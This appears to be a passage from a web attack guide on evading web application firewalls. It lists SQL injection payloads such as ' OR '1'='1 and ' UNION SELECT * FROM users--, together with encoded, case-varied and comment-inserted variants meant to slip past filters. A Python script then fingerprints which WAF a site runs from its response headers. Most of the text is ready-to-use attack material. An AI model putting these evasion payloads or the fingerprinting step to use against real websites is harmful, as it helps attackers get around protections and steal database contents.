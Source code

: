 #### WAF Evasion Techniques

**1. Encoding Bypass**
```
# URL encoding
' OR '1'='1  →  %27%20OR%20%271%27%3D%271

# Double URL encoding
' OR '1'='1  →  %2527%2520OR%2520%25271%2527%253D%25271

# Unicode encoding
' OR '1'='1  →  \u0027\u0020OR\u0020\u0027\u0031\u0027\u003d\u0027\u0031
```

**2. Case Variation**
```sql
-- Original payload
' UNION SELECT * FROM users--

-- Case variation
' uNiOn SeLeCt * fRoM users--
```

**3. Comment Insertion**
```sql
-- Original payload
' OR '1'='1

-- Comment insertion
'/**/OR/**/'1'='1
' OR /*comment*/ '1'='1
```

#### WAF Detection and Fingerprinting
```python
# WAF detection script
import requests

def detect_waf(url):
    waf_signatures = {
        'cloudflare': ['cloudflare', 'cf-ray'],
        'aws_waf': ['awswaf'],
        'f5_bigip': ['f5-bigip', 'bigipserver'],
        'barracuda': ['barra'],
        'mod_security': ['mod_security']
    }
    
    response = requests.get(url)
    headers = str(response.headers).lower()
    
    for waf, signatures in waf_signatures.items():
        for signature in signatures:
            if signature in headers:
                return waf
    
    return "Unknown or no WAF detected"
```
